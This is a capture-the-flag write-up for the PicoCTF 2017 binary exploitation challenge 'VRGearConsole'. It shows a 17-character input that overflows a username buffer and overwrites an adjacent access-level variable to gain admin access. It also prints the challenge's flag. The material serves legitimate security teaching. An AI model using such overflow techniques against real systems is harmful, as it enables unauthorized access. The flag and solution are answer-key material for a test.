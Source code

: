 # PicoCTF_2017: VRGearConsole

**Category:** Binary Exploitation
**Points:** 95
**Description:**

>Here's the [VR gear admin console](vrgearconsole.c). See if you can figure out a way to log in. The problem is found here: /problems/1e50bd93be07ea1bca65a1a071e18eef

**Hint:**

>What happens if you read in more characters than the length of the username buffer?
You should look at an ascii table to see what character you need to choose.
Numbers are stored in little-endian format, which means that the lowest byte of the number is first.
"cat file - | vrgearconsole " will keep the pipe open for commands.

## Write-up
Looking at the source code, we see a gaping hole for buffer overflow.

    int accessLevel = 0xff;
    char username[16];
    char password[32];

So, to buffer overflow this, we need to fill up username past it's limits to overwrite accessLevel. One way to do that, is by simply sending `17` characters.

    $ echo "AAAAAAAAAAAAAAAA!" > ~/file
    $ cat ~/file - | ./vrgearconsole 
    +----------------------------------------+
    |                                        |
    |                                        |
    |                                        |
    |                                        |
    |  Welcome to the VR gear admin console  |
    |                                        |
    |                                        |
    |                                        |
    |                                        |
    +----------------------------------------+
    |                                        |
    |      Your account is not recognized    |
    |                                        |
    +----------------------------------------+




    Please login to continue...


    Username (max 15 characters): Password (max 31 characters):
    Your access level is: 0x00000021
    Admin access granted!
    The flag is in "flag.txt".
    cat flag.txt
    5a9aeea545615089851dd6a9b57a3139

Therefore, the flag is `5a9aeea545615089851dd6a9b57a3139`.